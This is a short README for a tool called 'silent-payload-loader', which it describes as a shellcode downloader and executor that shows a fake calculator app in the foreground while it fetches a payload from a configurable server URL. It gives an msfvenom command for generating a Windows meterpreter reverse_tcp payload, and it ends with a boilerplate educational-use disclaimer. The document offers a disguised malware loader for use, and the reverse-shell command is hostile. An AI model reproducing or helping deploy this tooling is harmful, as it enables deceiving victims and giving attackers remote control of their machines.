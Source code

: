 # silent-payload-loader

Powerfull shellcode downloader / executor, I am not good at writing readmes :>
You can replace the fake calc application in the foreground with your own. (calc code: Line 167 - 194)
Start your application from line 167 (The comments should help you)

**Note**: You need to change the defined PAYLOAD_URL in line 18 to your server hosting the payload.bin

## Generate shellcode:
Example for a meterpreter (64bit): 
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f raw -o payload.bin
```

## Disclaimer:
This tool is intended for educational and research purposes only. Do not use it without explicit permission. The author is not responsible for any misuse.
